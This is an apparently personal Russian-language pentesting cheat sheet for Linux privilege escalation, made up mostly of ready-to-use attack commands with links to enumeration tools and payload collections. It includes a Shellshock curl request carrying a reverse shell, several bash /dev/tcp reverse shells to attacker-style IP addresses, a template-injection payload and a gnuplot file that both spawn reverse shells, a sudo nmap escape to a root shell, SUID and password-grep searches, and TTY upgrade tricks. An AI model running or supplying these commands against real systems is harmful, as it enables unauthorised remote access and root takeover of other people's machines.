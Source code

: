 

Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Информация о системе в txt-файле:

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-
       

curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null

 TF=$(mktemp) 
 echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF 

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения


https://github.com/rebootuser/LinEnum
реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор


https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty командой 
python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# Найти строки из всех файлов где есть passw
cat * | grep -i passw*

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;
find / -user root -perm -u=s -type f 2>/dev/null
